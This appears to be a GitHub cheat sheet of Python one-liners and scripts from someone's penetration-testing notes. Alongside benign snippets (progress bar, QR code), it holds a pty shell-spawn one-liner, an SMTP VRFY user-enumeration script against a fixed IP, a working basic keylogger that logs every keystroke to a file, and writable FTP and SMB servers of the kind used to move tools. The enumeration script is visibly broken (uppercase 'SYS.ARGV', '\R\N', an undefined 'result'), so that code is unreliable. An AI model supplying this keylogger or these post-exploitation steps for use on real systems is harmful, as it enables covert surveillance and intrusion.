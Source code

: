 # Python One Liners and scripts

## [Back To Command-Center](https://github.com/encryptedninja/command-center/blob/dev/README.md)

- install requirements: `sudo python3 -m pip install -r requirements.txt`
- to spawn a shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- webservers: `python3 -m http.server 8080`
- if webserver is picked up by the firewall use ftp server: `python3 -m pyftpdlib -p 21 --write` and if you don't have it get it first with: `pip3 install pyftpdlib` and to log in just use the IP address of your ftp server: `ftp <ftp server IP>`

## Enumerating users / smtp

```
#!/usr/bin/python

import socket
import sys

#Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#Connect to the socket
connect = s.connect(('10.11.1.11', 25))
#Recieve the banner
banner = s.recv(1024)
#VRFY a user
s.send('vrfy ' + SYS.ARGV[1] + '\R\N')
print result
#Close the socket
s.close()

```

## keylogger (basic)

```
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()

```

## printing and checking a usage form and switches (Python3)

```
if len(sys.argv) == 1:
    print("USAGE: python3 the_sys_module.py <code name>")
    print("No arguments, exiting...")
    sys.exit(9)
if sys.argv[1] == "tellmemore":
    print("Code name accepted..., exiting with exit code 0.")
else:
    print("Wrong code name, exiting with exit code 3.")

```

## progress bar (Python3)

```
for i in range(0, 51):
    time.sleep(0.1)
    sys.stdout.write("{} [{}{}]\r".format(i, '#' * i, "." * (50 - i)))
    sys.stdout.flush()
sys.stdout.write("\n")

```

## QR code generator (Python3)

```
import qrcode

input_data = "https://google.com"
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data(input_data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save('qrcode001.png')

```

## Python3 FTP Server

- Simple to use: `python3 -m pyftpdlib` and just make sure you have pyftpdlib installed with pip3.

## SMB Server - Impacket

- install impacket: `sudo apt update && sudo apt install python3-impacket -y`
- run it: `impacket-smbserver SPITFIRE . -smb2support`
